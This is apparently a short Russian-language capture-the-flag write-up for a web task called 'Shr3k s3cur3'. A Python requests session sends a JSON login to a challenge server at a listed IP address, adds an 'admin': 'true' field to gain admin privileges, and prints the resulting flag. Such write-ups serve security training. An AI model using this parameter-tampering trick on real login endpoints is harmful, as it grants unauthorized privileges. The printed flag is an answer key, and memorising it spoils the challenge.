 # Shr3k s3cur3

![Task](img/view_task.png)

*Нужен json.. и еда. Нет, тебе не нужна еда. Нужен запрос, кажется, на этот адрес /task_3/login.. Ключи.. Ключи user и pswd. До скорого!*

```sh
$ python3
>> import requests as r 
>> r.post('http://46.254.20.217:1000/task_3/login', json={'user': "joka", 'pswd': 'boka'}).json()
{'Auth': 'You are not an admin, I will not give you a flag..'}
>> r.post('http://46.254.20.217:1000/task_3/login', json={'user': "joka", 'pswd': 'boka', 'admin':'true'}).json()
{'Auth': 'Whoa whoa, how did you do that? joka you kerj?', 'flag': '4hsl33p{s3t_tru3_to_w1n}'}
```

Так же хинт можно было найти в f12:

* *For admin set parameter admin to True*

Флаг - *4hsl33p{s3t_tru3_to_w1n}*